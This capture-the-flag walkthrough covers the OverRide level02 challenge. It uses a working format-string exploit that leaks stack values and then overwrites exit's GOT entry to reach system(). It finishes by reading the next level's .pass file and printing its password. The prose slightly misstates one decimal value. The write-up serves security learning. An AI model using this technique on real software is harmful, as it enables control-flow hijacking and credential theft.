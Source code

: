 # Walkthrough level02

First we have execute the program.  

```bash
level02@OverRide:~$ ./level02 
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: root 
--[ Password: root
*****************************************
root does not have access!
```
A printf function is used in program. We can exploit printf because we can control the format string.   


```bash
level02@OverRide:~$ (python -c 'print("%p " * 12)' ; python -c 'print("a" * 8)' ; cat) | ./level02
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: --[ Password: *****************************************
0x7fffffffe500 (nil) 0x61 0x2a2a2a2a2a2a2a2a 0x2a2a2a2a2a2a2a2a 0x7fffffffe6f8 0x1f7ff9a08 0x6161616161616161 (nil) (nil) (nil) (nil)  does not have access!
```

We can see our buffer starts at 8th address.  
In the `password` we can write exit address. In `username` we can write our format string to write the value of new address (system : 0x400a85 = 196997) in the address contained in password. 



```bash
0000000000400710 <exit@plt>:
  400710:       ff 25 12 0b 20 00       jmp    QWORD PTR [rip+0x200b12]        # [601228] <_GLOBAL_OFFSET_TABLE_+0x68> 
  400716:       68 0a 00 00 00          push   0xa
  40071b:       e9 40 ff ff ff          jmp    400660 <_init+0x20>


[400a85]:       bf 32 0d 40 00          mov    edi,0x400d32
400a8a:       e8 21 fc ff ff          call   4006b0 <system@plt>
```

```bash
level02@OverRide:~$ (python -c 'print("%4196997d%8$n")' ; python -c 'print("\x28\x12\x60")' ; cat) | ./level02
...
whoami
level03
cat /home/users/level03/.pass
Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
```
 